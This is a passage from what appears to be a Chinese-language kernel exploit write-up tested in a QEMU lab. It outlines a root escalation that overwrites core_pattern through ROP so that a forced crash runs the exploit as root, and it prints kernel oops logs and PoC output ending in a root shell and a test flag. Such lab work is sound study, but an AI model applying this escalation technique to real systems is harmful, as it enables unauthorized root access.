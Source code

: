 ```
  
接下来通过ROP修改`core_pattern`值为memfd `|/proc/%P/fd/666 %P`，并将memfd复制为利用程序自身，完成之后利用程序主动crash，触发coredump产生，内核已root权限运行exploit程序自身，完成提权。

## 复现：

所有的rop必须在[_stext, _etext]之间，否则会触发NX错误：  
```
81.766165] kernel tried to execute NX-protected page - exploit attempt? (uid: 1000)
[   81.792896] BUG: unable to handle page fault for address: ffffffff8299a052
[   81.810767] #PF: supervisor instruction fetch in kernel mode
[   81.823853] #PF: error_code(0x0011) - permissions violation
ts[0[  ] 81:. 853,6 socket248] PGD 3c46067 P4D 3c46067 PUD 3c47063 PMD 80000000028001e1
[   81.851043] Oops: 0011 [#1] PREEMPT SMP PTI
```

*test:*   
```
$ ./poc
Hello World!
try to wait core
[   95.464768] BUG: scheduling while atomic: poc/354/0x00010002
[   95.478632] Modules linked in:

sock[   95.486469] Preemption disabled at:
[   95.486474] [<ffffffff81310e23>] irq_work_queue+0x23/0x50
ets[0]: 5, socke[   95.508029] CPU: 1 PID: 354 Comm: poc Not tainted 6.3.0 #93
[   95.526632] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-1.16.3-2 04/01/2014
t[1]: 6
[   95.599172] Call Trace:
[   95.677927] ------------[ cut here ]------------
[   95.683175] Voluntary context switch within RCU read-side critical section!
[   95.683816] WARNING: CPU: 1 PID: 354 at kernel/rcu/tree_plugin.h:318 rcu_note_context_switch+0x62c/0x690
[   95.713178] Modules linked in:
[   95.718262] CPU: 1 PID: 354 Comm: poc Tainted: G        W          6.3.0 #93
[   95.735521] Hardware name: QEMU Standard PC (i440FX + PIIX, 1996), BIOS 1.16.3-debian-1.16.3-2 04/01/2014
[   95.752900] RIP: 0010:rcu_note_context_switch+0x62c/0x690
[   95.762138] Code: 00 00 00 00 0f 85 0d fd ff ff 49 89 8c 24 a0 00 00 00 e9 00 fd ff ff 48 c7 c7 a8 24 27 83 c6 05 75 08 ce 02 01 e8 a4 82 f6 ff <0f> 0b e9 3b fa ff ff 49 83 bc 24 98 00 00 00 00 49 8b 84 24 a0 00
[   95.793147] RSP: 0018:ffffc900009adf40 EFLAGS: 00010086
[   95.801582] RAX: 0000000000000000 RBX: ffff88813bcb3700 RCX: 0000000000000000
[   95.814821] RDX: 0000000000000003 RSI: 0000000000000027 RDI: 00000000ffffffff
[   95.828898] RBP: 0000000000000000 R08: 00000000ffffdfff R09: 0000000000000001
[   95.840645] R10: 00000000ffffdfff R11: ffffffff83c7afa0 R12: ffff88813bcb2880
[   95.854500] R13: ffff888102acb240 R14: 0000000000000000 R15: 0000000000000000
[   95.871507] FS:  0000000000da2380(0000) GS:ffff88813bc80000(0000) knlGS:0000000000000000
[   95.890278] CS:  0010 DS: 0000 ES: 0000 CR0: 0000000080050033
[   95.901485] CR2: 00000000004b9000 CR3: 0000000102a02000 CR4: 0000000000050ee0
[   95.918447] Call Trace:
[   95.925747] ---[ end trace 0000000000000000 ]---
[   96.027876] poc[355]: segfault at 0 ip 000000000040248d sp 00007ffc781827d0 error 6 in poc[401000+89000] likely on CPU 1 (core 1, socket 0)
[   96.075993] Code: df e8 97 fb 01 00 ba 10 00 00 00 4c 89 ee 48 89 ef e8 47 ec ff ff 85 c0 0f 85 4f ff ff ff 48 8d 3d d6 7b 08 00 e8 03 46 00 00 <48> c7 04 25 00 00 00 00 00 00 00 00 0f 0b 0f 1f 44 00 00 f3 0f 1e
check core: /proc/sys/kernel/core_pattern
Root shell !!
FLAG{test-by-hxqu}
bash: cannot set terminal process group (-1): Inappropriate ioctl for device
bash: no job control in this shell